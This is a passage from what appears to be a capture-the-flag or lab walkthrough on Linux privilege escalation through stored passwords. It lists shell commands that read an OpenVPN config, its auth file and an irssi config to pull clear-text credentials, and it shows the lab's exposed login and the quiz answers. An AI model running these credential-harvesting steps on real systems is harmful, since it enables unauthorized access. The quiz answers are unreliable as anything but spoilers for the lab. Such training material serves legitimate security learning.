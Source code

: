 1. Click 'Completed' once you have successfully elevated the machine

`No answer needed`

## Privilege Escalation - Stored Passwords (Config Files)

**Exploitation**

**Linux VM**

1. In command prompt type: `cat /home/user/myvpn.ovpn`
2. From the output, make note of the value of the “`auth-user-pass`” directive.
3. In command prompt type: `cat /etc/openvpn/auth.txt`
4. From the output, make note of the clear-text credentials.
5. In command prompt type: `cat /home/user/.irssi/config | grep -i passw`
6. From the output, make note of the clear-text credentials.

---

```
TCM@debian:~$ cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

TCM@debian:~$ cat /etc/openvpn/auth.txt
user
password321
TCM@debian:~$
```

1. What password did you find?

`password321`

2. What user's credentials were exposed in the OpenVPN auth file?

`user`

## Privilege Escalation - Stored Passwords (History)

**Exploitation**
